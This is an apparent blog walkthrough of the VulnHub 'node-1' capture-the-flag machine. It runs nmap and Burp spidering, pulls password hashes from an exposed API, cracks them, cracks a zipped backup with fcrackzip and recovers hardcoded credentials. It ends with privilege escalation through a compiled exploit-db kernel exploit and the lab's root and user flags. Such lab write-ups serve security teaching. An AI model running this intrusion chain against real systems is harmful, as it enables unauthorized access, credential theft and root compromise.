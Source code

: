 ```yaml
---
layout: post-detail
title: CTF - node-1
date: 2018-09-17
categories: CTF
description: Walkthrough on node-1 from https://www.vulnhub.com/entry/node-1,252/
img-url: ''
comments: true
---
```


Walkthrough on CTF node-1

# Iso

Download here -> https://www.vulnhub.com/entry/node-1,252/

# Discover the target ip

    $ sudo nmap -sS 192.168.2.0/24

```
Nmap scan report for 192.168.2.84
- - -
PORT     STATE SERVICE
22/tcp   open  ssh
3000/tcp open  ppp
MAC Address: 08:00:27:A2:8A:95 (Oracle VirtualBox virtual NIC)
```

# Find attack vectors

    $ sudo nmap --script vuln 192.168.2.84

```
Pre-scan script results:
| broadcast-avahi-dos:
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 192.168.2.84
Host is up (-0.046s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE
22/tcp   open  ssh
3000/tcp open  ppp
MAC Address: 08:00:27:A2:8A:95 (Oracle VirtualBox virtual NIC)
```

Nikto, dirb and gobuster are not effectible on javascript application... We need use the 'web spidering' method available on `burpsuite` or `zaproxy`.

I will use burpsuite here, and don't try with w3m, you need a modern web browser which play with javascript to find all URL. 

Configure our web browser to use burpproxy at `127.0.0.1:8080` and go `http://192.168.2.84:3000`.

On burpsuite: click on the tab `Target`, right click on your server address and select `Spider this host`. Monitor the tab `Proxy` to forward all requests.

Result after few clicks:

```
http://192.168.2.84:3000/api/users/
http://192.168.2.84:3000/api/users/latest
http://192.168.2.84:3000/api/users/tom
http://192.168.2.84:3000/api/partials/home.html
http://192.168.2.84:3000/api/partials/login.html
```

You can quit burpsuite, open the page `/api/users`:

```
[{"_id":"59a7365b98aa325cc03ee51c","username":"myP14ceAdm1nAcc0uNT","password":"dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af","is_admin":true},{"_id":"59a7368398aa325cc03ee51d","username":"tom","password":"f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240","is_admin":false},{"_id":"59a7368e98aa325cc03ee51e","username":"mark","password":"de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73","is_admin":false},{"_id":"59aa9781cced6f1d1490fce9","username":"rastating","password":"5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0","is_admin":false}]
```

Open `leaked.py` to decode these haches:

```
Enter your choice (1-4): 2

Enter or paste a hash code you want to check: dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0afTHAT HASH CODE IS LEAKED! It means: manchester


Enter or paste a hash code you want to check: f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240
THAT HASH CODE IS LEAKED! It means: spongebob

Enter or paste a hash code you want to check: de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73
THAT HASH CODE IS LEAKED! It means: snowflake
```

So, in short:

```
myP14ceAdm1nAcc0uNT : manchester : admin
tom : spongebob
mark : snowflake
rastating : pass no found
```

Log in with the admin account and download the backup file.

    $ file myplace.backup
    myplace.backup: ASCII text, with very long lines, with no line terminators

An encoded file, probably with base64, we try...

    $ base64 -d myplace.backup > myplace
    $ file myplace
    myplace: Zip archive data, at least v1.0 to extract
    $ 7z x myplace
    Enter password (will not be echoed):

A password is needed... So like the bruteforce method is not really interresting, i give you the password `magicword` here.

    $ fcrackzip -v -b -u -p magicword 'myplace'

With a good dictionnary, you do something like this:

    $ fcrackzip -v -u -D good_dictionnary.dic 'myplace'

Next, try to found something of cool in this archive...

    $ find var -type f | xargs grep -iE 'key|pass'

```js
var/www/myplace/app.js:const backup_key  = '45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474';
```
Open this file, maybe we will found other secrets...

```js
const url         = 'mongodb://mark:5AYRft73VtFpc84k @localhost:27017/myplace?authMechanism=DEFAULT&authSource=myplace';
- - -
var proc = spawn('/usr/local/bin/backup', ['-q', backup_key, __dirname ]);
```

We found an access to mongodb, an username `mark` and a password `5AYRft73VtFpc84k`.
And a command `/usr/local/bin/backup` which serve to create a backup, we'll see later.

    $ ssh mark@192.168.2.84
    password: 5AYRft73VtFpc84k

If the password is not ask (like me), edit your ssh configuration: 

    $ vim .ssh/config
    
```
Host 192.168.2.84
  PasswordAuthentication yes
```

It should work.  
On our host, find the linux version.

    $ uname -a
    Linux node 4.4.0-93-generic #116-Ubuntu SMP Fri Aug 11 21:17:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

Search an exploit to linux 4.4.0.

    $ searchsploit 4.4.0

```
Linux Kernel 4.4.0 (Ubuntu) - DCCP Double-Free Privilege Escalation                                                                                | exploits/linux/local/41458.c
- - -
Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local | exploits/linux/local/44298.c
```

Copy, paste the exploit in a file into ubuntu or send him with scp:

    $ scp /usr/share/exploitdb/exploits/linux/local/44298.c mark@192.168.2.84:/tmp/

Ubuntu side:

    $ cd /tmp
    $ gcc 44298.c
    $ ./a.out

We are root:

    # cd /root
    # cat root.txt
    1722e99ca5f353b362556a62bd5e6be0

The other flag is hidden into `/home/tom/user.txt` :)

    e1156acc3574e04b06908ecf76be91b1

